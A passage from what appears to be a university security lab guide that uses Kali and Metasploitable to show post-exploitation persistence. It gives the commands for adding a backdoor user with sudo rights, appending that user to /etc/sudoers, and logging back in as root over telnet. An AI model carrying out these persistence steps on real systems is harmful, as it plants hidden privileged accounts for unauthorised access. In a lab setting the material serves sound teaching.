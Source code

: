 + Try putting Kali and Metasploitable side by side and run the `reboot` command. 

You will notice that when you rebooted Metasploitable, the backdoor shell stopped working. To gain access to the machine we would have to run the exploit again which might be problematic. We need therefore to make our access persistent.

## Making our access persistent

As we saw in the Nmap scan, the victim is already running both SSH and Telnet, so the easiest way to gain persistent access is by adding an extra user to the system.


```bash
useradd ttm4175 % Add 'ttm175' as a new user
passwd ttm4175 % Set the password for the new user
usermod -aG sudo ttm4175 % Add the user to the 'admin' group, this is equivalent to being root
reboot
```

+ After running the reboot command, wait until Metasploitable has rebooted and then try to login with telnet: 
```bash
apt-get install telnet
telnet <IP_address_victim_machine>
```

+ After logging in, test that you still can get root access:

```bash
$ sudo su % Switch to the root user
# whoami
```

The last command should print "root" if successful.

:tip:

If you get an error saying that "ttm4175 is not in the sudoers group", then you will have to manually add it to the sudoers file. To do this, re-open the backdoor shell by running the exploit again, and type the following command: `echo "ttm4175 ALL=(ALL) ALL" >> /etc/sudoers` . Now try to connect to Metasploitable again with Telnet and verify if you can get root access.
